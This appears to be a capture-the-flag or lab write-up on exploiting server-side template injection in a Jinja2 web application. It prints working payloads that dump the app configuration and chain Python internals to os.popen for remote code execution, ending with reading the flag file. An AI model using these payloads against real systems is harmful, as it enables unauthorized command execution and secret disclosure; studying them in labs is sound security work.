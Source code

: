 # Exploiting SSTI - Jinja2

Exploit the SSTI vulnerability to obtain RCE and read the flag.

In this exercise we are already assuming that the web application uses `Jinja` template engine.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lets first try to obtain the web application configuration with the following payload:

```jinja2
{{ config.items() }}
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The payload worked perfectly. As we can see, we managed to get the web application configuration. Now lets try to do a Remote Code Execution (RCE)  with this payload:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it worked!&#x20;

After a few tries we would eventually end with the following payload to retrieve our flag:

{% code overflow="wrap" %}
```django
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we found the flag!
